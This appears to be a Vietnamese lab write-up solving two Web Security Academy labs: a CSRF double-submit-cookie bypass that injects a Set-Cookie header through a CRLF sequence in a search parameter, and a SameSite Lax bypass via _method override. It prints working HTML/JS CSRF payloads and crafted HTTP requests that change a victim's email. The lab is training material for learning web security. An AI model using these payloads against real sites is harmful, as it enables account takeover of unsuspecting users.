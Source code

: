 Đây là cơ chế bảo vệ CSRF được gọi là **"double submit cookie"**

#### Exploit
- Login bằng tài khoản được cấp
- Thực hiện chức năng **change-email**
- Test việc thay đổi làm cho csrf khác nhau giữa **Header** và **Body**, sẽ nhận được `"Invalid CSRF token"`
- Nhưng làm cho chúng giống nhau, không phải csrf ban đầu vẫn thực hiện được thay đổi email
```http
POST /my-account/change-email HTTP/2
Host: 0ab800d604cd71ed80c403f400cc009b.web-security-academy.net
Cookie: csrf=xnxx; session=pRQywNtRwp6nBB9KjblS1iTs4WNr3IGC
...
email=evil%40gmail.com&csrf=xnxx
```

=> Cho thấy server không lưu trữ csrf mà chỉ so sánh csrf giữa **Header** và **Body**
- Tạo mã khai thác tưởng tự như lab trên nhưng thay đổi **csrf** để chúng có giá trị giống nhau
```html
  <form action="https://0ab800d604cd71ed80c403f400cc009b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="xnxx">
      <input type="hidden" name="email" value="evil@gmail.com">
      <img src="https://0ab800d604cd71ed80c403f400cc009b.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=xnxx%3b%20SameSite=None" onerror="document.forms[0].submit()">    
  </form>
```
- Response cho request **search**
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=abc
Set-Cookie: csrf=xnxx; SameSite=None; Secure; HttpOnly
```
- Đến **Exploit Server**
- Dán mã khai thác vào body 
- Deliver to victim

### Lab: SameSite Lax bypass via method override
#### Determine type of **SameSite**
- Login bằng tài khoản được cấp
- Thực hiện **change-email**
- Quan sát các response, nhận thấy không có SameSite nào được server chỉ định 
=> SameSite Lax được sử dụng mặc định bởi **Chrome**

#### Exploit
- Thay đổi method và thực hiện change-email => `"Method Not Allowed"`
- Overwrite method => thành công
```http
GET /my-account/change-email?email=evil%40gmail.com&_method=POST HTTP/2
Host: 0a4d00ba046d90da817a8e1300b0005c.web-security-academy.net
```
- Tạo mã khai thác
```html
<script>
    document.location="https://0a4d00ba046d90da817a8e1300b0005c.web-security-academy.net/my-account/change-email?email=evil%40gmail.com&_method=POST";
</script>
```
- Deliver to victim
